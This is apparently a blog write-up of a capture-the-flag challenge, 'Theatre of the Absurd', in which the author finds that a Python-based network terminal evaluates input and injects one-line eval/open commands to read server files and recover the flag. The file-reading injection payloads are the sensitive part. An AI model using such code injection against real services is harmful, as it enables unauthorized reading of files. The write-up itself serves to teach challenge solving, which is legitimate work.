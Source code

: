 ```yaml
---
layout: post
title: Theatre of the Absurd 
date: 2024-09-25
categories: binaryExploitation 
---
```

# Theatre of the Absurd
Question:
![Question](https://media.discordapp.net/attachments/1009492231658418296/1288492984861462558/image.png?ex=66f5621a&is=66f4109a&hm=eb721409d84d2ee123acc0e98aeb3968c5e53f020e64339e8b348d78b7f23c03&=&format=webp&quality=lossless&width=880&height=603)

Clearly, the question wants us to connect to a server with port 6000
![connect to nc](https://media.discordapp.net/attachments/1009492231658418296/1288493321769193534/image.png?ex=66f5626a&is=66f410ea&hm=d127d8ef69e943f6aa12fc264189bb99c8cab8273fcd46af3d173acf82d2dbe3&=&format=webp&quality=lossless&width=1092&height=482)

After close inspection we can see references of Python abbreviated "py-4.51". This hints that the terminal program is written in Python.
![Confirm python](https://media.discordapp.net/attachments/1009492231658418296/1288494125628522496/image.png?ex=66f5632a&is=66f411aa&hm=520873388e01d90f0ad607a0cf189bb4a613f331dcdfe85ebcc778a9775d9ed1&=&format=webp&quality=lossless&width=677&height=191)
The above error confirms the program is written in python, but this also hints that the program tries to evaluate what is written since the error refers to accessing an unknown variable. This could come in handy when we try to inject our own scripts into the shell.

![Checking out commands](https://media.discordapp.net/attachments/1009492231658418296/1288494683516829761/image.png?ex=66f563af&is=66f4122f&hm=31d1c32b41f3e9557d19ddd904d766ed5c7dafc2372a8b0d70a0f756863ecdc7&=&format=webp&quality=lossless&width=796&height=353)

Checking out the help command refers us to a few other commands, most importantly the "dir" command to check what files are on the server. As the name suggests, the files, or contents of these files can be useful ahead.

Since the server can evaluate python code, we can quickly formulate a one line python script to print the content of the files.

```py
print(eval("open('warp-drive.txt').readlines()"))
```
```py
print(eval("open('top-secret.enc').readlines()"))
```

Running the above scripts in the shell gives us:
![Evaluated output](https://media.discordapp.net/attachments/1286609033343533058/1288240146310893671/image.png?ex=66f51f61&is=66f3cde1&hm=02692d64b5daf1349199595b70fe06fc602368082e49d86c55d65f550487bc75&=&format=webp&quality=lossless&width=1142&height=662)

The key as expected is in front of us.
`Key: milanCTF{pr3t3Nd_s3cur1ty_1s_n0t_c23af1}`
